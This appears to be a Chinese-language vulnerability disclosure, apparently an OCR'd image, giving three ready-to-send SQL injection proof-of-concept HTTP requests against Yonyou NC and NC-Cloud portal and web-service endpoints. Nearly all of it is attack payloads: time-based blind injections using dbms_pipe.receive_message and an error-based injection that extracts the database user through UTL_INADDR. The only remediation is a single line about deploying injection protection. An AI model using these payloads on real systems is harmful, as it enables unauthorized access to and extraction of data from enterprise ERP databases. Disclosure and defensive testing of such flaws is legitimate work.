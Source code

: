 修复建议:  
  
部署SQL注入防护产品  
  
  
漏洞名称：  
用友NC listUserSharingEvents 存在SQL注入  
  
漏洞描述：  

```
GET /portal/pt/oacoSchedulerEvents/listUserSharingEvents?agent=1')+AND+1=dbms_pipe.receive_message('RDS',5)--&pageId=login&sch_ed=2&sch_sd=1 HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:139.0) Gecko/20100101 Firefox/139.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
```

  
  
漏洞描述：  
用友NC changeEvent 存在SQL注入  
  
漏洞描述：  

```
POST /portal/pt/oacoSchedulerEvents/changeEvent?pageId=login HTTP/1.1
Host:
Content-Type: application/x-www-form-urlencoded


event_id=1' AND 1=dbms_pipe.receive_message('RDS',5)--+#&startDate=2025-07-01 00:00:00&startDate_old=2025-07-01 24:00:00
```

  
  
漏洞名称：  
用友NC-Cloud IBapIOService存在SQL注入  
  
漏洞描述：  

```
POST /uapws/service/nc.itf.bap.service.IBapIOService HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: text/xml


<?xml version=&#34;1.0&#34; encoding=&#34;UTF-8&#34; standalone=&#34;no&#34;?>
<soapenv:Envelope xmlns:soapenv=&#34;http://schemas.xmlsoap.org/soap/envelope/&#34; xmlns:gs=&#34;http://service.bap.itf.nc/IBapIOService&#34;>
    <soapenv:Header/>
    <soapenv:Body>
        <gs:getBapTableDatas>
            <gs:stringarrayItem>
                DWQueue@MessageQueue' AND 1=UTL_INADDR.GET_HOST_ADDRESS('~'||(user)||'~')-- abc
            </gs:stringarrayItem>
        </gs:getBapTableDatas>
    </soapenv:Body>
</soapenv:Envelope>
```
